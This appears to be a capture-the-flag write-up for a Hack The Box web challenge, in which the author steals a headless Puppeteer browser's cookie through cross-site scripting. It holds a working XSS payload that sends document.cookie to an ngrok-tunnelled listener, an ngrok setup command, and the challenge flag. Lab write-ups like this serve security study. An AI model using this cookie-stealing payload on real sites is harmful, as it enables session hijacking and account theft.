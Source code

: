 **XSS**

There is a headless browser called puppeteer

![image](https://user-images.githubusercontent.com/87831546/144928352-c3793727-dc8d-4d8d-bc8e-1f0523a273eb.png)

Looks like there is a cookie that this browser uses that we need. The browser is visiting the web page we are on so we can try some XSS to steal the cookie on the only input in the site

Start ngrok as this is a public ip
```
./ngrok http 1234
```
Enter the payload
```
<script>document.location='http://7325-5-151-121-251.ngrok.io/?cookie='+document.cookie</script>
```
![image](https://user-images.githubusercontent.com/87831546/144928385-84d97cfd-2f1b-44c4-98f5-225787a39658.png)

And we get the cookie in our listener
![image](https://user-images.githubusercontent.com/87831546/144928395-76aba58e-42b3-451d-88ee-b39306fc69e9.png)

```
HTB{3v1l_3lv3s_4r3_r1s1ng_up!}
```
